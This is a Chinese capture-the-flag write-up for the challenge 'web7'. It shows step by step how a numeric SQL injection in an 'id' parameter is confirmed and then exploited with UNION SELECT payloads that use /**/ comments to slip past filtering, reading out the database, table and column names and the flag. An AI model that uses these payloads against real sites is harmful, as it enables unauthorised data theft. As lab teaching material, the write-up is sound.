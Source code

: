# web7

![web7_1](./img/web7_1.PNG)



+ 由链接，可看到由<code>id</code>传值

![web7_2](./img/web7_2.PNG)



+ 先试下使恒成立

~~~ shell
?id=1/**/and/**/1
~~~

![web7_3](./img/web7_3.PNG)



+ 再试下使恒不成立

~~~ shell
?id=1/**/and/**/0
~~~

![web7_4](./img/web7_4.PNG)

由此可以判断页面存在SQL注入,注入点为**数值型注入**



+ 页面中有显示位,可以尝试**联合注入**进行脱库，首先判断显示位

~~~ shell
?id=-1/**/union/**/select/**/1,2,3
~~~

![web7_4](./img/web7_4.PNG)



+ 爆数据库名

~~~ shell
?id=-1/**/union/**/select/**/1,database(),3
~~~

![web7_5](./img/web7_5.PNG)



+ 爆数据表

~~~ shell
?id=-1/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema="web7"),3
~~~

![web7_6](./img/web7_6.PNG)



+ 爆数据列

~~~ shell
?id=-1/**/union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema="web7"/**/and/**/table_name="flag"),3
~~~

![web7_7](./img/web7_7.PNG)



+ 爆数据

~~~ shell
?id=-1/**/union/**/select/**/1,(select/**/flag/**/from/**/flag),3
~~~

![web7_8](./img/web7_8.PNG)